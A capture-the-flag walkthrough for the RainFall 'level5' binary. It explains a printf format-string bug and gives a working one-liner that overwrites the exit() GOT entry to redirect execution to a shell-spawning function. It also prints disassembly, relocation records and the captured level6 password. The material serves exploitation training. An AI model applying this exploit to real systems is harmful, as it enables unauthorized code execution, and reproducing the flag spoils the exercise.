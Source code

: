 # Walkthrough

## Solution

```
(python -c 'print ("\x38\x98\x04\x08" + "%134513824c" + "%4$n")'; cat -) | ./level5
pwd
/home/user/level5
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Explanation

### Execution

```
level5@RainFall:~$ ./level5 
hello
hello
```
-> The program waits for an input, and then echo that output.  

### Disassembly

```
info variable
0x08049854  m

info function
0x080484a4  o
0x080484c2  n
0x08048504  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  


### Steps

-> We know there is a function o() that launches a shell, but it is not called.  

The program takes an input through fgets, which is protected from buffer overflows.  
It then prints the buffer and exit.  
The exit function comes from the plt (*exit@plt*).  

The procedure linkage table (PLT) consists of many jump instructions, each one corresponding to
the address of a function.  

```
level5@RainFall:~$ objdump -d -j .plt ./level5 
...
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    *0x8049838
 80483d6:	68 28 00 00 00       	push   $0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>
...
```  

One of these jump instructions is associated with the exit() function, which is called at the end of the program.  
If the jump instruction used for the exit() function can be manipulated to direct the execution flow into shellcode instead of the exit() function, a root shell will be spawned.  

But the plt table is *read-only*.  
The jump instruction reveals that it isn't jumping to an address but to a pointer to address.  
For example, the actual address of the exit() function’s address is stored at 0x8049838.  

These addresses exist in another section, called the **global offset table** (GOT), which is writable.

```
level5@RainFall:~$ objdump -R ./level5 

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```  

This reveals that the address of the exit() function is located in the GOT at 0x08049838.  
If the address of the shellcode is over-written at this location, the program should call
the shellcode when it thinks it’s calling the exit() function.  

We can use the printf format string vulnerability to write the function o's address instead
of the exit function address when it is called in function n().  

- Let's find in which position does the m variable address starts.  

```
level5@RainFall:~$ ./level5 
AAAA %x %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
-> It is on the 4th position.

```
-> exit:	0x08049838
-> o: 		0x080484a4 == 134513828 in decimal - 4bytes (for the exit address)
```
We have to print enough characters to reach the number that is the address of o.  

- Let's overwrite exit by o:  
```
(python -c 'print ("\x38\x98\x04\x08" + "%134513824c" + "%4$n")'; cat -) | ./level5
pwd
/home/user/level5
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
